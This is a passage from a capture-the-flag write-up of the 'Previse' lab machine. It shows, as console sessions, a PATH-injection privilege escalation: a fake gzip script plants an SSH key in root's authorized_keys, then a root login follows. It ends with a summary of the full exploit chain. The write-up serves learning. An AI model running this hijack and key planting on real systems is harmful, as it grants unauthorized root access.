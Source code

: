 ```console
m4lwhere@previse:~$ ls -l /var/www/file_access.log
-rw-r--r-- 1 www-data www-data 515 Jun 18  2021 /var/www/file_access.log
m4lwhere@previse:/opt/scripts$ ls -dl /var/backups
drwxr-xr-x 2 root root 4096 Jul 28  2021 /var/backups
```

**Path Injection**: Since the `gzip` is a relative path, change PATH variable so the program would seek the wanted path first with our customized `gzip` executable file.

```console
m4lwhere@previse:/dev/shm$ cat gzip
#!/bin/bash
mkdir -p /root/.ssh
echo 'ssh-rsa AAAA...CkbPE= qwe@kali' >> /root/.ssh/authorized_keys
m4lwhere@previse:/dev/shm$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
m4lwhere@previse:/dev/shm$ export PATH=.:$PATH
m4lwhere@previse:/dev/shm$ sudo /opt/scripts/access_backup.sh
```

```console
└─╼$ ssh root@$IP
Welcome to Ubuntu 18.04.5 LTS (GNU/Linux 4.15.0-151-generic x86_64)
...
root@previse:~# id
uid=0(root) gid=0(root) groups=0(root)
root@previse:~# uname -a
Linux previse 4.15.0-151-generic #157-Ubuntu SMP Fri Jul 9 23:07:57 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
```

## Exploit Chain

port scan -> EAR to create a new user -> download sitebackup.zip and discover command injection -> www-data shell -> mysql conn with hash value -> crack to get a password -> ssh to get m4lwhere shell -> enum root -> PATH injection -> insert pub key into root's authorized_keys -> root shell

### Beyond Root

What is **EAR** (Execution After Redirect)?

